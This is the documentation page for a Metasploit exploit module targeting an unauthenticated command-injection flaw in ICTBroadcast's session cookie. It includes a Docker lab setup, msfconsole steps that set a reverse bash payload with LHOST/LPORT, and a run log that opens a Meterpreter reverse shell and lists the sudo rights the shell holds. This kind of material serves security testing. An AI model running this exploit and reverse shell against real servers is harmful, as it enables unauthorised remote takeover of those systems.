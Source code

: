 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated remote code
execution (RCE)** vulnerability in **ICTBroadcast**.
The vulnerability exists due to improper handling of session
cookies in the authentication mechanism. An attacker can inject arbitrary system commands by modifying the session cookie.

The issue affects **various versions of ICTBroadcast**, but
specific impacted releases are currently unknown. The vulnerability allows an attacker to execute shell commands **without authentication**.

## Options

None

## Testing

To test the exploit, spin up a vulnerable ICTBroadcast instance with Docker.

```yaml
services:
  db:
    image: mariadb:10.6
    container_name: ictmysql
    restart: unless-stopped
    environment:
      MYSQL_ROOT_PASSWORD: root     
      MARIADB_ROOT_HOST: '%'       
      MYSQL_DATABASE: ictbroadcast
      MYSQL_USER: ictuser
      MYSQL_PASSWORD: ictpass
    volumes:
      - db_data:/var/lib/mysql
    ports:
      - "3306:3306"

  ictbroadcast:
    image: chocapikk/ictbroadcast-cve-2025-2611:latest
    container_name: ictbroadcast
    depends_on:
      - db
    ports:
      - "80:80"
      - "443:443"
    command: >
      bash -c "
        composer --working-dir=/usr require stefangabos/zebra_pagination &&
        /usr/sbin/httpd -k start &&
        /usr/sbin/php-fpm &&
        tail -f /dev/null
      "

volumes:
  db_data:
```

1. Start the stack:

```bash
docker compose up -d
```

2. Verify that the login page is reachable at **`http://localhost/login.php`**.
   The application should issue a valid session cookie on first visit.

3. Run the Metasploit module.
   The exploit will automatically harvest the session cookie (format may vary across deployments)
   and leverage it to execute arbitrary commands via the vulnerable endpoint.

## Verification Steps
1. Start **Metasploit Framework**:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/ictbroadcast_unauth_cookie
```

3. Set the **target IP address**:
```bash
set RHOSTS <TARGET_IP>
```

4. Set the **payload** for command execution:
```bash
set PAYLOAD cmd/unix/reverse_bash
```

5. Configure the listener:
```bash
set LHOST <YOUR_IP>
set LPORT 4444
```

6. Check if the target is vulnerable:
```bash
check
```

7. Exploit the target:
```bash
exploit
```

## Scenarios

### **Unauthenticated Command Execution**
**Note**: Ensure that the target is vulnerable using the `check` command before running the exploit.

**Note**: The session cookie is retrieved dynamically and modified for command injection.

```bash
msf6 exploit(linux/http/ictbroadcast_unauth_cookie) > run http://lab/
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if target is an ICTBroadcast instance…
[+] ICTBroadcast detected, verifying injection…
[*] Retrieving session cookies dynamically...
[*] Found cookies: BROADCAST="16c4d0bf9d5b5cf9d8dc3f19e6ea2338;"
[+] The target is vulnerable. Injection confirmed (slept 3s)
[*] Sending stage (3090404 bytes) to 192.168.128.3
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 192.168.128.3:58784) at 2025-08-02 19:27:09 +0200

meterpreter > sysinfo 
Computer     : 192.168.128.3
OS           : Red Hat 8.10 (Linux 6.15.8-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 798 created.
Channel 1 created.
export TERM=xterm
SHELL=/bin/bash script -q /dev/null
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for asterisk on f7681361bd20:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User asterisk may run the following commands on f7681361bd20:
    (root) NOPASSWD: /usr/sbin/asterisk
    (root) NOPASSWD: /etc/init.d/asterisk
    (root) NOPASSWD: /etc/init.d/httpd
    (root) NOPASSWD: /etc/init.d/mysqld
    (root) NOPASSWD: /etc/init.d/kannel
    (root) NOPASSWD: /usr/sbin/ntpdate
    (root) NOPASSWD: /usr/sbin/rabbitmqctl
    (root) NOPASSWD: /bin/systemctl
```
